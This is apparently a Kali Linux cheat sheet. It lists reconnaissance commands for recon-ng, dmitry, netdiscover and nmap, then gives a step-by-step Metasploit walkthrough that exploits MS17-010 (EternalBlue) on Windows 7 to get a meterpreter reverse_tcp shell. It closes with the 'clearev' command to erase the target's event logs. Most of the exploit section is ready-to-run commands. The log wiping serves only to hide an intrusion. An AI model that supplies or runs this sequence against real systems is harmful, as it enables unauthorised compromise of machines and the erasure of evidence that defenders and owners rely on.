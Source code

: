 ## Kali Linux
### Information Gathering and Reconnaissance
#### Use Recon-NG Framework:
```
> recon-ng
> show modules
> use module-name
```
#### Use Dmitry
```
> dmitry -s site.com
```
#### Use Netdiscover to find IPs and open ports on LAN
```
> netdiscover
```
#### Use Nmap
```
> nmap -v -A site.com
```
Find open ports:
```
> nmap -r -v 192.168.1.5
```
Find what services are running on open ports:
```
> nmap -sS -Pn -A 192.168.1.5
```
#### Use Metasploit for Pintesting Windows 7
```
  // Get open ports:
> nmap -sS -sV put-target-ip-here-or-a-range -A -O -v
> msfconsole
  // use MS17010 for Windows 7: 
> search MS17-010
> use exploit/windows/smb/ms_17_010_eternalblue
  // or
> use exploit/windows/smb/ms17_010_psexec
> show payloads
> set payload windows/x64/meterpreter/reverse_tcp
> show options
> set LHOST put-your-ip-here
> set LPORT 4444
> set RHOST put-target-ip-here
> set RPORT 445
> exploit
```
if you get meterpriter bash, it means you are in the target file sistem. Use mterpreter commands to navigate around.

To clear logs on the target system (via meterpreter):
```
> clearev (clear log)
```
